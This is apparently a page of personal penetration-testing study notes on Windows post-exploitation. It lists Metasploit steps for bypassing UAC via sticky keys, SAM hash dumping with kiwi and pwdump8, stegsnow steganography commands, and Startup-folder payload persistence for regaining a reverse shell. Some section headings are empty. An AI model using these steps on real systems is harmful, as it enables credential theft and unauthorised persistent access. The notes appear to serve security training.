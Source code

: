 ###### Bypassing UAC & Exploiting Sticky Keys
- Get Meterpreter Root Shell usnign above mentioned steps
- Background the session
- Use module windows/manage/sticky_keys
- exploit

###### Escalate Privileges & Gather Hashdump
- Get Meterpreter Root Shell usnign above mentioned steps
- `load kiwi`
- `help kiwi`
- `lsa_dump_sam`
- `password_change -u [username] -n [old NTLM Hash] -P [new password]`

Hash dump with pwdump8 and crack with JTR

wmic useraccount get name,sid --> Get user acc names and SID
https://download.openwall.net/pub/projects/john/contrib/pwdump/pwdump8-8.2.zip
`pwdump8.exe > c:\hashes.txt`

###### Stegnography

WhiteSpace Stegnography
`sudo apt install stegsnow`

To Hide Data
`stegsnow -C  -m "String that u need to hide" -p "password"  [file1.txt(old_file)] [file2.txt (output_File)]`
https://manpages.ubuntu.com/manpages/bionic/man1/stegsnow.1.html

To Read Data
`stegsnow -C  -p "password" [filename.txt]`

OpenStego - Windows Stegnography Tool

###### Maintain Persistence by Abusing Boot Logon Autostart
- Make 2 payload file one for getting meterpreter session & second one for dumping the payload to startup folder
 "use different ports for different payloads"
- Get Meterpreter Root Shell usnign above mentioned steps
- Background the session
- Escalate Privileges
- Place the payload file to startup loction 

`C:\\ProgramData\\StartMenu\\Programs\\Startup`

`C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup`

- Restart the Windows Machine
- Get the Reverse Shell

###### Maintain Domain Persistence by Exploiting Active Directory Objects

######  Privilege Escalation Maintain Persistence using WMI

######  Covert Channels sing Covert_TCP
Download covert_tcp file 
>https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwisuI2Mirj8AhV4zzgGHanDDYAQFnoECAkQAQ&url=http%3A%2F%2Fwww-scf.usc.edu%2F~csci530l%2Fdownloads%2Fcovert_tcp.c&usg=AOvVaw2iAVfjGEAO5q-aAqYVps1d
